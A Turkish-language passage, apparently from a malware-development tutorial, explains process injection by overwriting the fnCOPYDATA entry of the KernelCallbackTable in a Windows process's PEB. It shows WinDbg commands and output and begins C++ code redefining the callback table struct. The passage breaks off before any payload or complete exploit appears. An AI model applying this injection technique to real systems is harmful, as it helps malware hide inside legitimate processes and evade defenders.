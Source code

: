 \newpage
\subsection{27. KernelCallbackTable ile süreç enjeksiyonu. Basit C++ zararlı yazılım örneği.}

﷽

![1](./images/37/2022-01-26_22-20.png){width="80%"}    

Bu yazı, `KernelCallbackTable`'daki `fnCOPYDATA` değerini sahte olarak ayarlayarak yapılan bir süreç enjeksiyonu tekniği üzerine yaptığım kendi araştırmaların bir sonucudur.     

Bu tekniği daha ayrıntılı bir şekilde inceleyelim.     

### KernelCallbackTable

`KernelCallbackTable` `PEB` yapısında, `0x058` ofsetinde bulunabilir:     

```cmd
lkd> dt_PEB
```
![2](./images/37/2022-01-26_23-21.png){width="80%"}    

```cmd
lkd> dt_PEB @$peb kernelcallbacktable
```
![2](./images/37/2022-01-26_23-06.png){width="80%"}    

`KernelCallbackTable`, bir dizi işlev olarak başlatılır:      

```cpp
lkd> dqs 0x00007ffa`29123070 L60
00007ffa`29123070  00007ffa`290c2bd0 user32!_fnCOPYDATA
00007ffa`29123078  00007ffa`2911ae70 user32!_fnCOPYGLOBALDATA
00007ffa`29123080  00007ffa`290c0420 user32!_fnDWORD
00007ffa`29123088  00007ffa`290c5680 user32!_fnNCDESTROY
00007ffa`29123090  00007ffa`290c96a0 user32!_fnDWORDOPTINLPMSG
00007ffa`29123098  00007ffa`2911b4a0 user32!_fnINOUTDRAG
//....
```

Örneğin, `fnCOPYDATA` gibi işlevler, bir `WM_COPYDATA` pencere mesajına yanıt olarak çağrılır.     

Bu işlev, enjeksiyonu göstermek için değiştirilir.     

### pratik örnek

Bu tekniğin akışı şu şekildedir: Öncelikle, SDK'dan `ntddk.h` başlık dosyasını dahil edin:     

```cpp
#include <./ntddk.h>
```

Daha sonra, yeniden tanımlayın:    

```cpp
typedef struct _KERNELCALLBACKTABLE_T {
  ULONG_PTR __fnCOPYDATA;
  ULONG_PTR __fnCOPYGLOBALDATA;
  ULONG_PTR __fnDWORD;
  ULONG_PTR __fnNCDESTROY;
  ULONG_PTR __fnDWORDOPTINLPMSG;
  ULONG_PTR __fnINOUTDRAG;
  ULONG_PTR __fnGETTEXTLENGTHS;
  ULONG_PTR __fnINCNTOUTSTRING;
  ULONG_PTR __fnPOUTLPINT;
  ULONG_PTR __fnINLPCOMPAREITEMSTRUCT;
  ULONG_PTR __fnINLPCREATESTRUCT;
  ULONG_PTR __fnINLPDELETEITEMSTRUCT;
  ULONG_PTR __fnINLPDRAWITEMSTRUCT;
  ULONG_PTR __fnPOPTINLPUINT;
  ULONG_PTR __fnPOPTINLPUINT2;
```